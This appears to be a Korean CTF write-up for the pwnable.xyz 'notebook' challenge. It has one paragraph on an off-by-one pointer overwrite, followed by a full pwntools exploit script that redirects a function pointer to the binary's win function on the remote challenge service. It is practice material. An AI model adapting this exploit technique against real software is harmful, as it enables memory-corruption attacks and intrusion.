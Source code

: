 ```yaml
---
title: "[pwnable.xyz]notebook"
date: 2020-2-28
ctf: Pwnable.xyz
layout: post
published : false
---
```


off-by-one 취약점 터져서 ptr 1바이트를 덮을 수 있어서 함수포인터 위치를 바꿀 수 있다. 그래서 title 입력할 때 win함수 주소를 넣어주고 rename으로 off-by-one 취약점을 이용해 win함수를 가르키게 바꿔주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30035)
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
win = e.symbols['win']
nbook = 0x0000000000602280
ptr = 0x0000000000602300

def make(size,title,note):
	sla('>','1')
	sla(':',str(size))
	sla(':',title)
	sla(':',note)

def edit(note):
	sla('>','2')
	sa(':',note)

def delete():
	sla('>','3')

def rename(name):
	sla('>','4')
	sa(':',name)

sla(':','A'*4)
make(32,p32(win)+'\x00'*4,'B')
rename('A'*127+'\x1c') # off-by-one
sla('>','2') # function ptr -> execute

p.interactive()
```

